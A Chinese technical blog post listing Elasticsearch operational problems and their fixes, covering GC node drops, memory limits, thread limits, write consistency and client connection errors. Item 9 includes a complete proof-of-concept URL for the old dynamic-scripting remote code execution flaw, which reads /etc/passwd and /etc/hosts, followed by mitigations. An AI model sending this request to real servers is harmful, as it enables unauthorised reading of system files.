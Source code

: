```yaml
---
title: elasticsearch 遇到的一些问题
date: 2016-04-16 09:19:31
tags: ["tech","技术","elasticsearch"]
author: wangxiuwen
categories: ["技术"]
layout: post
---
```


**1.由gc引起节点脱离集群**因为gc时会使jvm停止工作，如果某个节点gc时间过长，master ping3次（zen discovery默认ping失败重试3次）不通后就会把该节点剔除出集群，从而导致索引进行重新分配。解决方法：（1）优化gc，减少gc时间。（2）调大zen discovery的重试次数（es参数：ping_retries）和超时时间（es参数：ping_timeout）。后来发现根本原因是有个节点的系统所在硬盘满了。导致系统性能下降。**2.out of memory错误**因为默认情况下es对字段数据缓存（Field Data Cache）大小是无限制的，查询时会把字段值放到内存，特别是facet查询，对内存要求非常高，它会把结果都放在内存，然后进行排序等操作，一直使用内存，直到内存用完，当内存不够用时就有可能出现out of memory错误。解决方法：（1）设置es的缓存类型为Soft Reference，它的主要特点是据有较强的引用功能。只有当内存不够的时候，才进行回收这类内存，因此在内存足够的时候，它们通常不被回收。另外，这些引 用对象还能保证在Java抛出OutOfMemory 异常之前，被设置为null。它可以用于实现一些常用图片的缓存，实现Cache的功能，保证最大限度的使用内存而不引起OutOfMemory。在es的配置文件加上index.cache.field.type: soft即可。（2）设置es最大缓存数据条数和缓存失效时间，通过设置index.cache.field.max_size: 50000来把缓存field的最大值设置为50000，设置index.cache.field.expire: 10m把过期时间设置成10分钟。**3.无法创建本地线程问题**es恢复时报错： RecoverFilesRecoveryException[ Failed to transfer  files with total size of ]; nested: OutOfMemoryError; ]]刚开始以为是文件句柄数限制，但想到之前报的是too many open file这个错误，并且也把数据改大了。查资料得知一个进程的jvm进程的最大线程数为：虚拟内存/（堆栈大小*1024*1024），也就是说虚拟内存越大或堆栈越小，能创建的线程越多。重新设置后还是会报那这错，按理说可创建线程数完全够用了的，就想是不是系统的一些限制。后来在网上找到说是max user processes的问题，这个值默认是1024，这个参数单看名字是用户最大打开的进程数，但看官方说明，就是用户最多可创建线程数，因为一个进程最少有一个线程，所以间接影响到最大进程数。调大这个参数后就没有报这个错了。解决方法：（1）增大jvm的heap内存或降低xss堆栈大小（默认的是512K）。（2）打开/etc/security/limits.conf ，把soft    nproc     1024这行的1024改大就行了。**4.集群状态为黄色时并发插入数据报错**: index , type , id , message [UnavailableShardsException[  shardIt,  active : Timeout waiting for , request: org.elasticsearch.action.bulk.BulkShardRequest@5989fa07]]这是错误信息，当时集群状态为黄色，即副本没有分配。当时副本设置为2，只有一个节点，当你设置的副本大于可分配的机器时，此时如果你插入数据就有可能报上面的错，因为es的写一致性默认是使用quorum，即quorum值必须大于（副本数/2+1），我这里2/2+1=2也就是说要要至少插入到两份索引中，由于只有一个节点，quorum等于1，所以只插入到主索引，副本找不到从而报上面那个错。解决方法：（1）去掉没分配的副本。（2）把写一致性改成one，即只写入一份索引就行。**5.设置jvm锁住内存时启动警告**当设置bootstrap.mlockall: true时，启动es报警告Unknown mlockall error 0，因为linux系统默认能让进程锁住的内存为45k。解决方法：设置为无限制，linux命令：ulimit -l unlimited**6.错误使用api导致集群卡死**其实这个是很低级的错误。功能就是更新一些数据，可能会对一些数据进行删除，但删除时同事使用了deleteByQuery这个接口，通过构造BoolQuery把要删除数据的id传进去，查出这些数据删除。但问题是BoolQuery最多只支持1024个条件，100个条件都已经很多了，所以这样的查询一下子就把es集群卡死了。解决方法：用bulkRequest进行批量删除操作。7.org.elasticsearch.transport.RemoteTransportException: Failed to deserialize exception response from stream原因:es节点之间的JDK版本不一样解决方法：统一JDK环境8 **
. org.elasticsearch.client.transport.NoNodeAvailableException: No node available**1） 端口错client = new TransportClient().addTransportAddress(new InetSocketTransportAddress(ipAddress, 9300));这里9300 写成9200的话会No node available要是你连的不是本机，注意IP有没有正确2 ）jar报引用版本不匹配，开启的服务是什么版本，引用的jar最好匹配（这个我没有去试，反正我的是匹配的）3） 要是你改了集群名字，还有设置集群名字Settings settings = ImmutableSettings.settingsBuilder().put("cluster.name", "xxx").build(); client = new TransportClient(settings).addTransportAddress(new InetSocketTransportAddress(ipAddress, 9300));4）集群超过5s没有响应解决方法1.设置client.transport.ping_timeout设大2.代码内加入while (true) {try {bulk.execute().actionGet(getRetryTimeout());break;}catch (NoNodeAvailableException cont) {Thread.sleep(5000);continue;}}

9.elasticsearch
近日被发现漏洞，可以远程执行任意代码，由于 elasticsearch提供了http接口，导致可能通过CSRF等方式借助恶意页面浏览发生攻击
。漏洞影响版本:elasticsearch 1.2以下 
测试代码：http:// **ESSERVERIP**
:9200/_search?source=%7B%22size%22%3A1%2C%22query%22%3A%7B%22filtered%22%3A%7B%22query%22%3A%7B%22match_all%22%3A%7B%7D%7D%7D%7D%2C%22script_fields%22%3A%7B%22%2Fetc%2Fhosts%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fhosts%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%2C%22%2Fetc%2Fpasswd%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fpasswd%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%7D%7D&callback=jQuery111102863897154977554_1400571156308&_=1400571156309浏览器会返回/etc/passwd内容**解决方案**
：1、在配置文件elasticsearch.yml里设置script.disable_dynamic: true2、严格限制可访问elasticsearch服务的IP地址**参考：**http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_disabling_dynamic_scripts

重启后报503错误详情如此下：  Message not fully read (request) for  andaction , resetting  failed to send join request to master [[UG2WbJpDTHOB-EjzJFRsow][inet]], reason [org.elasticsearch.transport.RemoteTransportException:[inet]; org.elasticsearch.transport.RemoteTransportException: [inet]; org.elasticsearch.ElasticsearchIllegalArgumentException: No custom index metadata factory registered for type ]问题原因：都采用默认集群名字的话，不同人不同I配置发到集群会进行连接并选Master，有时候可能因为IP限制连接不上。更改：自己的测试服务尽量个性命名

参考文献： http://blog.csdn.net/laigood/article/details/8193170from   http://blog.csdn.net/july_2/article/details/24728733
